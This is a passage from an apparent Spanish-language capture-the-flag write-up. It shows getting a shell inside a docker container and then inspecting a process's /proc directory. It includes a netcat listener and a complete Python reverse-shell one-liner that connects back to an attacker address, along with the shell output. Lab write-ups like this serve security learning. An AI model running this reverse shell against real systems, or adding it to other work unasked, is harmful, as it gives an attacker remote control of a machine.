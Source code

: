 Nos podemos en escucha

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Eh ingresamos al docker con la siguiente reverse shell

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.58",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

Podemos ejecutar comandos

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.58] from (UNKNOWN) [10.10.11.184] 34552
/bin/sh: can't access tty; job control turned off
/ $ whoami
whoami: unknown uid 1000
/ $ id
uid=1000 gid=1000
/ $ 
```

Si vemos los procesos que estan corriendo vemos esto

```bash
1196 1000      0:00 sleep 100000000
```

Podemos ir al directorio con **PID**

```bash
/proc/1196 $ ls -la
total 0
dr-xr-xr-x    9 1000     1000             0 Jan  1 19:51 .
dr-xr-xr-x  284 root     root             0 Jan  1 19:50 ..
-r--r--r--    1 1000     1000             0 Jan  1 19:54 arch_status
dr-xr-xr-x    2 1000     1000             0 Jan  1 19:54 attr
-rw-r--r--    1 1000     1000             0 Jan  1 19:54 autogroup
-r--------    1 1000     1000             0 Jan  1 19:54 auxv
-r--r--r--    1 1000     1000             0 Jan  1 19:54 cgroup
--w-------    1 1000     1000             0 Jan  1 19:54 clear_refs
-r--r--r--    1 1000     1000             0 Jan  1 19:51 cmdline
-rw-r--r--    1 1000     1000             0 Jan  1 19:54 comm
-rw-r--r--    1 1000     1000             0 Jan  1 19:54 coredump_filter
-r--r--r--    1 1000     1000             0 Jan  1 19:54 cpu_resctrl_groups
-r--r--r--    1 1000     1000             0 Jan  1 19:54 cpuset
lrwxrwxrwx    1 1000     1000             0 Jan  1 19:54 cwd -> /home/jack
-r--------    1 1000     1000             0 Jan  1 19:54 environ
lrwxrwxrwx    1 1000     1000             0 Jan  1 19:54 exe -> /usr/bin/sleep
dr-x------    2 1000     1000             0 Jan  1 19:54 fd
dr-xr-xr-x    2 1000     1000             0 Jan  1 19:54 fdinfo
-rw-r--r--    1 1000     1000             0 Jan  1 19:54 gid_map
-r--------    1 1000     1000             0 Jan  1 19:54 io
-r--r--r--    1 1000     1000             0 Jan  1 19:54 limits
-rw-r--r--    1 1000     1000             0 Jan  1 19:54 loginuid
dr-x------    2 1000     1000             0 Jan  1 19:54 map_files
-r--r--r--    1 1000     1000             0 Jan  1 19:54 maps
-rw-------    1 1000     1000             0 Jan  1 19:54 mem
-r--r--r--    1 1000     1000             0 Jan  1 19:54 mountinfo
-r--r--r--    1 1000     1000             0 Jan  1 19:54 mounts
-r--------    1 1000     1000             0 Jan  1 19:54 mountstats
dr-xr-xr-x   54 1000     1000             0 Jan  1 19:54 net
```